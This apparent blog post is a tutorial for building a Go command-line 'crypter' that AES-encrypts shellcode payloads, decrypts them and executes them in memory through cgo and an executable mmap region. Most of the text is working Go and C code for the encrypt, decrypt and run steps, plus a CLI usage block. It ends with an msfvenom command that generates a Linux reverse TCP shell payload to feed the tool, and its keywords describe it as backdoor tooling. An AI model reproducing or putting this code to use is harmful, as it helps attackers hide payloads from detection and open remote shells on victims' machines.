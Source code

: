 ```yaml
---
layout: post
title: golang进阶:go语言AES编写shellcode
category: golang
tags: golang golang进阶
description: 
keywords: shell-code后门,go黑客,go后门,golang unsafe
date: 2019-04-04T13:19:54+08:00
score: 5.0
coverage: golang_shellcode.jpg
published: true
---
```


## 前言
The goal for this post will be to demonstrate how to write a sort of crypter that will work as a command line utility allowing us to:

Encrypt a file (it’s aimed for shellcode payloads but that’s irrelevant)
Decrypt a file
Run shellcode

## Step One: Encrypt
I choose AES as the cipher. The code looks like this (full source can be found on GitHub):

```go
func Encrypt(key []byte, text []byte) ([]byte, error) {
 // Init Cipher
 block, err := aes.NewCipher(key)
 if err != nil {
   return nil, err
 }
 // Padding
 paddingLen := aes.BlockSize - (len(text) % aes.BlockSize)
 paddingText := bytes.Repeat([]byte{byte(paddingLen)}, paddingLen)
 textWithPadding := append(text, paddingText...)
 // Getting an IV
 ciphertext := make([]byte, aes.BlockSize+len(textWithPadding))
 iv := ciphertext[:aes.BlockSize]
 // Randomness
 if _, err := io.ReadFull(rand.Reader, iv); err != nil {
   return nil, err
 }
 // Actual encryption
 cfbEncrypter := cipher.NewCFBEncrypter(block, iv)
 cfbEncrypter.XORKeyStream(ciphertext[aes.BlockSize:], textWithPadding)
 return ciphertext, nil
}
```

The function just creates an AES cipher, then calculates the padding needed and proceeds to encrypt the payload.


## Step Two: Decrypt
Now we need to implement the reverse function (again, full source code on Github):

```go
func Decrypt(key []byte, text []byte) ([]byte, error) {
  // Init decipher
  block, err := aes.NewCipher(key)
  if err != nil {
    return nil, err
  }
  if (len(text) % aes.BlockSize) != 0 {
    return nil, errors.New("wrong blocksize")
  }
  // Getting the IV
  iv := text[:aes.BlockSize]
  // Actual decryption
  decodedCipherMsg := text[aes.BlockSize:]
  cfbDecrypter := cipher.NewCFBDecrypter(block, iv)
  cfbDecrypter.XORKeyStream(decodedCipherMsg, decodedCipherMsg)
  // Removing Padding
  length := len(decodedCipherMsg)
  paddingLen := int(decodedCipherMsg[length-1])
  result := decodedCipherMsg[:(length - paddingLen)]
  return result, nil
}
```

## Step Three: Run
As we are using Go (which does not allow raw bytes execution by default) and the shellcode provided was written for the C stack we need to find a way to execute C code in Go. This can be accomplished by using the “C” package and unsafe pointers.

In C we’d do something like this:
```c
fp = (void *)shellcode
fp();
```

While in Go we need to use some tricks. We’ll use the unsafe package a special pointer that will allow us to use unsafe features:

```go
import "unsafe"
func Run(shellcode []byte) {
  ptr := &shellcode[0]
  unsafe.Pointer(ptr)
}
```

Then we add the C package, write our C code as a comment right above the import and use the defined function to execute the unsafe pointer. This will behave as the C code presented earlier:

```go
/*
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>
void execute(char *shellcode, size_t length) {
  unsigned char *ptr;
  ptr = (unsigned char *) mmap(0, length, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
  memcpy(ptr, shellcode, length);
  ( *(void(*) ()) ptr)();
}
*/
import "C"
import ("unsafe")
func Run(shellcode []byte) {
  ptr := &shellcode[0]
  size := len(shellcode)
  C.execute((*C.char)(unsafe.Pointer(ptr)), (C.size_t)(size))
}
```

Yes, it’s ugly, I know… but you are running unsafe C code inside Go. It should be ugly. Full source code for this package can be found here.

## Step Four: CLI
Now that we have the meaty part ready we’ll need to implement some methods to facilitate the tool usage. I implemented some functions to allow the user to fire the encryption, decryption and “decrypt & run” routines using various sets of options.

I won’t go into details for this part as it just reads the parameters provided from os.Args[] and determines which function to execute depending on the input. Source code can be found here.

```bash
gocrypt {action} {key} {file}
Action can be: 
  Encryption:     --encrypt -e encrypt e
  Decryption:     --decrypt -d decrypt d
  Decrypt & Run:  --run     -r run     r
Key: must be 16, 24 or 32 chars long
File: must be a valid path
```


## Step Five: Show
We can get the raw bytes for a reverse TCP shell from Metasploit issuing:

msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 > msfvemonpayload
After that, we can use the payload to test our crypter. It’s show time!
